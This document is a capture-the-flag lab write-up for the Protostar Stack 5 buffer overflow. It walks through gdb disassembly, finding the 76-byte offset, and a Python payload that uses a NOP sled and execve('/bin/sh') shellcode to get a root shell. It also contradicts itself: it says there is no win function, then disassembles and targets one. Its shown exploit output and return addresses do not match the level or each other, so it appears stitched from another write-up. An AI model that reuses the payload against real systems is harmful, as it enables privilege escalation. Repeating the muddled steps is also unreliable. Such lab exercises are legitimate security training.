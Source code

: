 ```yaml
---
title: Stack 5
sidebar_position: 6
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```



> Stack5 is a standard buffer overflow, this time introducing shellcode.
> This level is at /opt/protostar/bin/stack5
> 
> **Hints**
> - At this point in time, it might be easier to use someone elses shellcode
> - If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
> - remove the int3s once your shellcode is done.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
In this code there is no `win` function. In order to complete the challenge we have to obtain `root` priviledge.
For that, we need to use a shellcode that we can get from shell-storm.

The saved return address must be overwritten with the address of the shellcode.
```
		    |-------------------------|                                                       
entry esp --------> |     saved eip           | ====+
		    |     (return address)    |      |
                    |-------------------------|      |                                                     
new ebp ----------> |     saved ebp           |      |
		    |-------------------------|      |
		    |     shellcode [63]      |      |
		    |          .              |      |
		    |          .              |      |
		    |          .              |      |
		    |     shellcode [0]       | <----+
		    |-------------------------|
new esp ----------> |     i                   |
		    |-------------------------|
 		    |                         |
```
That was a generalized representation.

But first let's understand the binary using `gdb`.
```
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
```
Let's figure out where our buffer is located.
```
(gdb) p/s ($esp+0x10)
$1 = (void *) 0xbffff760
```
We can see that the buffer begins at  `0xbffff760`.

Set a breakpoint at `main+21` and pass in the following input:
```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```
This will lead to segmentation fault.
```
Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
```
The error message tells us that the value of  stored `eip` was changed to `0x74747474` which is not a valid address. `0x74` is `t` in ASCII.

So the 77th, 78th, 79th and 80th bytes from our input overwrote the saved `eip`.

In order to alter control flow to the `win` function, we first need to know its address.
```
(gdb) disassemble win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```
These four bytes need to be the `0xbffff760` address in little-endian format.
```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss + \x60\xf7\xff\xbf
```


## Exploit

```
$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack5
code flow successfully changed
```



```python
import struct

padding = "A"*76
nops = "\x90"*150
eip = struct.pack("I",0xbffff7e0)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
payload = padding+eip+nops+shellcode
print payload
```
